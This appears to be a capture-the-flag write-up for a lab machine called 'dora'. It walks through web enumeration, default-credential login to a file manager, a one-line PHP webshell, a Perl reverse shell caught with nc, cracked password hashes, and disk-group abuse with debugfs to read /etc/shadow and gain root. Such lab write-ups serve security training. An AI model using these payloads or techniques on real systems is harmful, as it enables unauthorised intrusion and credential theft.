 `Running all scans on 192.168.151.16`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`22/tcp open  ssh`
`80/tcp open  http`

`└─$ gobuster dir -u http://192.168.190.16 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt` 
===============================================================
`Gobuster v3.6`
`by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)`
===============================================================
`[+] Url:                     http://192.168.190.16`
`[+] Method:                  GET`
`[+] Threads:                 10`
`[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt`
`[+] Negative Status codes:   404`
`[+] User Agent:              gobuster/3.6`
`[+] Timeout:                 10s`
===============================================================
`Starting gobuster in directory enumeration mode`
===============================================================
`/.html                (Status: 403) [Size: 279]`
`/.php                 (Status: 403) [Size: 279]`
`/wp-admin             (Status: 301) [Size: 319] [--> http://192.168.190.16/wp-admin/]`
`/wp-includes          (Status: 301) [Size: 322] [--> http://192.168.190.16/wp-includes/]`
`/wp-content           (Status: 301) [Size: 321] [--> http://192.168.190.16/wp-content/]`
`/.htm                 (Status: 403) [Size: 279]`
`/.                    (Status: 302) [Size: 0] [--> http://192.168.190.16/wp-admin/setup-config.php]`
`/wordpress            (Status: 301) [Size: 320] [--> http://192.168.190.16/wordpress/]`
`/.htaccess            (Status: 403) [Size: 279]`
`/.phtml               (Status: 403) [Size: 279]`
`/.htc                 (Status: 403) [Size: 279]`
`/filemanager          (Status: 301) [Size: 322] [--> http://192.168.190.16/filemanager/]`

Let's check out the filemanager

Weak credentials admin:admin gets us in

We get a popup to change our password or dora's. Tried to change dora's password but it doesn't work for ssh, only for this web console, so it's kind of worthless.

Upload a basic webshell
`└─$ cat basic_webshell.php`                
`<?php system($_GET['cmd']);?>`

Upload our perl reverse shell from pentest monkey
http://pentestmonkey.net/tools/perl-reverse-shell/perl-reverse-shell-1.0.tar.gz

![[Pasted image 20240211115234.png]]

Catch and upgrade
`└─$ nc -nlvp 1234`
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:1234`
`Ncat: Listening on 0.0.0.0:1234`
`Ncat: Connection from 192.168.190.16:56804.`
 `16:52:42 up 13 min,  0 users,  load average: 0.00, 0.00, 0.00`
`USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT`
`Linux dora 5.4.0-146-generic #163-Ubuntu SMP Fri Mar 17 18:26:02 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux`
`uid=33(www-data) gid=33(www-data) groups=33(www-data)`
`/`
`/usr/sbin/apache: 0: can't access tty; job control turned off`
`$ python3 -c 'import pty; pty.spawn("/bin/bash")'`

Look to see if there is another user we probably have to switch to
`www-data@dora:/$ cd /home`
`cd /home`
`www-data@dora:/home$ ls`
`ls`
`dora`

See if there is anything we missed in our file manager
`www-data@dora:/$ cd /var/www/html`
`cd /var/www/html`
Check if any files contain the user ID we're looking for 
`www-data@dora:/var/www/html$ find . -type f -exec grep -H "dora" {} + 2>/dev/null`

The last result is interesting
`./filemanager/config/.htusers.php:	array('dora','$2a$08$zyiNvVoP/UuSMgO2rKDtLuox.vYj.3hZPVYq3i4oG3/CtgET7CjjS','/var/www/html','http://localhost','1','','0',1),`

If we run this through hashcat, it cracks it to doraemon

Switch users
`www-data@dora:/var/www/html$ su dora`
`su dora`
`Password: doraemon`

`$ python3 -c 'import pty; pty.spawn("/bin/bash")'`

`dora@dora:/var/www/html$` 

Dora is a member of the disk grou
`dora@dora:/var/www/html$ id`
`id`
`uid=1000(dora) gid=1000(dora) groups=1000(dora),6(disk)`

We can privilege escalate with disk group membership as found on this page
https://steflan-security.com/linux-privilege-escalation-exploiting-user-groups/

`dora@dora:/var/www/html$ df -h`  
`df -h`
`Filesystem                         Size  Used Avail Use% Mounted on`
`/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  5.1G  4.3G  55% /`
`udev                               947M     0  947M   0% /dev`
`tmpfs                              992M     0  992M   0% /dev/shm`
`tmpfs                              199M  1.2M  198M   1% /run`
`tmpfs                              5.0M     0  5.0M   0% /run/lock`
`tmpfs                              992M     0  992M   0% /sys/fs/cgroup`
`/dev/sda2                          1.7G  209M  1.4G  13% /boot`
`/dev/loop0                          62M   62M     0 100% /snap/core20/1611`
`/dev/loop3                          50M   50M     0 100% /snap/snapd/18596`
`/dev/loop2                          68M   68M     0 100% /snap/lxd/22753`
`/dev/loop1                          64M   64M     0 100% /snap/core20/1852`
`/dev/loop4                          92M   92M     0 100% /snap/lxd/24061`
`tmpfs                              199M     0  199M   0% /run/user/1000`
`dora@dora:/var/www/html$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv`
`debugfs /dev/mapper/ubuntu--vg-ubuntu--lv`
`debugfs 1.45.5 (07-Jan-2020)`
`debugfs:`  

Once we can read the filesystem, check the /etc/shadow file
`dora@dora:/$ debugfs /dev/mapper/ubuntu--vg-ubuntu--lv`
`debugfs /dev/mapper/ubuntu--vg-ubuntu--lv`
`debugfs 1.45.5 (07-Jan-2020)`
`debugfs:  cat /etc/shadow`
`cat /etc/shadow`
`root:$6$AIWcIr8PEVxEWgv1$3mFpTQAc9Kzp4BGUQ2sPYYFE/dygqhDiv2Yw.XcU.Q8n1YO05.a/4.D/x4ojQAkPnv/v7Qrw7Ici7.hs0sZiC.:19453:0:99999:7:::`

Run this through hashcat and we get "explorer"

Privilege escalate and get the flag
`dora@dora:/$ su root`
`su root`
`Password: explorer`

`root@dora:/# cat /root/proof.txt`
`cat /root/proof.txt`
`759aaf1cb811b6503d2f0e54d9984ff1`

